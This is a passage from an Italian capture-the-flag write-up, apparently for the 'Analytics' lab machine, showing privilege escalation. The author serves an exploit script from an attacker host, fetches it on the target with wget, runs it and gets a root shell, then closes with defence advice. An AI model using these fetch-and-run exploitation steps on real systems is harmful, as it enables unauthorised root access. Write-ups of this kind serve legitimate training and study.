 Cerchiamo Vulnerabilità note.

![Desktop View](/assets/img/analytics/vulnerabilità2.png)

Questa fa al caso nostro.

### Exploitation

cloniamo la repository sulla nostra macchina locale e tramite `python3 -m http.server 8000` ci passiamo l'exploit.

```shell
metalytics@analytics:~/ciao$ wget http://10.10.14.7:8000/exploit.sh
--2025-08-03 20:58:20--  http://10.10.14.7:8000/exploit.sh
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh                                      100%[=====================================================================================================>]     558  --.-KB/s    in 0s      

2025-08-03 20:58:20 (40.8 MB/s) - ‘exploit.sh’ saved [558/558]

metalytics@analytics:~/ciao$ ls -al
total 16
drwxrwxr-x 2 metalytics metalytics 4096 Aug  3 20:58 .
drwxr-x--- 5 metalytics metalytics 4096 Aug  3 20:54 ..
-rw-rw-r-- 1 metalytics metalytics  558 Aug  2 20:52 exploit.sh
-rw-rw-r-- 1 metalytics metalytics  310 Aug  3 20:57 index.html
metalytics@analytics:~/ciao$ chmod +x exploit.sh
metalytics@analytics:~/ciao$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:~/ciao# 
```

Andiamo nella home directory di root e prendiamo la flag.

## Conclusione

Analytics dimostra in modo efficace come la combinazione di vulnerabilità note e pratiche di sicurezza deboli possa portare a compromissioni complete di un sistema. Un approccio di difesa in profondità, con aggiornamenti regolari, hardening dei container e corretta gestione delle credenziali, è essenziale per prevenire compromissioni a catena come quella dimostrata in Analytics.
